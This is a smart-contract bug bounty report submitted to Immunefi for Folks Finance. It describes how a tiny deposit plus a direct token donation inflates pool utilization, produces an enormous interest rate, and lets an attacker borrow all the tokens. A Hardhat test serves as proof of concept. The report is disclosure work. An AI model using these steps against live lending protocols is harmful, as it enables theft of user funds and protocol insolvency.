 
# Infinite Interest rate bug

Submitted on Wed Jul 17 2024 12:14:00 GMT-0400 (Atlantic Standard Time) by @kankodu for [Boost | Folks Finance](https://immunefi.com/bounty/folksfinance-boost/)

Report ID: #33311

Report type: Smart Contract

Report severity: Critical

Target: https://testnet.snowtrace.io/address/0x96e957bF63B5361C5A2F45C97C46B8090f2745C2

Impacts:
- Protocol insolvency
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro
Here's the equation for utilisation that is being used currently
`U=TotalVariableBorrowAmount+TotalStableBorrowAmountTotalDeposits/TotalDeposits`

When totalDeposits is lower than the totalBorrowed amount, the utilization can be much greater than 100%, which in turn makes borrowRates and depositRates very high.

## Vulnerability Details
- When a new token with CF > 0 is added, the attacker deposits 1e5 wei of its token, making TotalDeposits = 1e5.
- Let's say the decimals for this newly added token are 1e18. The attacker then donates 1e18 wei of tokens directly to the HubPool and borrows.
    - This is allowed as there is no check for it in the borrow method. It makes the totalBorrows = 1e18.
    - Utilization is 1e13 in this case, which makes the interest rate ~4e31. This translates to 4 trillion percent per second.
- After just a block, the attacker's original 1e5 deposits would have turned into a very large amount (in billions) due to the interest rate being an outrageous trillion percent per second.
- The attacker goes ahead and borrows all the tokens against this deposit as CF for this token is non-zero.

## Impact Details
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Protocol insolvency

## References
- https://medium.com/certora/silo-finance-post-mortem-3b690fffeb08
        
## Proof of concept
## Proof of Concept

Add below testcase in `test/hub/HubPool.test.ts` that shows the the interest rate is a very large amount when totalDeposits is way smaller than the totalBorrowedAmount

```
  it.only("infinite interest rate", async () => {
      const { loanManager, hubPool } = await loadFixture(deployHubPoolFixture);

      // set pool data with deposit total amount
      const depositTotalAmount = BigInt(1e5);
      const poolData = getInitialPoolData();
      poolData.depositData.totalAmount = depositTotalAmount;
      await hubPool.setPoolData(poolData);

      // update pool with borrow
      const amount = BigInt(1e18);
      const isStable = false;
      const updatePoolWithBorrow = await hubPool.connect(loanManager).updatePoolWithBorrow(amount, isStable);
      expect((await hubPool.getVariableBorrowData())[3]).to.equal(poolData.variableBorrowData.totalAmount + amount);
      await expect(updatePoolWithBorrow).to.emit(hubPool, "InterestRatesUpdated");

      expect((await hubPool.getVariableBorrowData())[4]).to.be.greaterThan(BigInt(1e31))
    });
```